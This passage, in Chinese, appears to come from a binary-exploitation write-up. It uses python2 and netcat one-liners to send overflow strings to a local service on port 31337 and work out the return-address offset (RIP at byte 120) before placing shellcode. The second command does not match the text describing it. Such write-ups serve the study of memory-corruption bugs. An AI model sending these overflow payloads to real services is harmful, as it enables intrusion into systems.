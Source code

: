112 个 A+8 个 B+4 个 C。RIP 地址可以被 4 个 C 覆盖

```bash
echo $(python2 -c 'print "A" * 112 + "B" * 8 + "C" * 4') | nc localhost 31337
```

[![](assets/1703831476-adc01b06dc13962497773cfe25fa0532.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224831-0122a8a0-a4c7-1.png)

112 个 A+8 个 B+6 个 C，程序崩溃。RIP 地址最多可以被 4 个 C 覆盖

```bash
echo $(python2 -c 'print "A" * 112 + "B" * 8 + "C" * 4') | nc localhost 31337
```

[![](assets/1703831476-b6beb58dc5fb818bb48cefd31f65aa18.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224838-051a3b44-a4c7-1.png)

从结果中可以知道：

1.  栈能存 112
2.  填充满 RBP 需要 +8 个字符
3.  120 个，没有影响到返回地址。覆盖 rip 寄存器需要在 120 处开始，且最多只能覆盖 4 个字节

#### 3.5 shellcode 位置分析
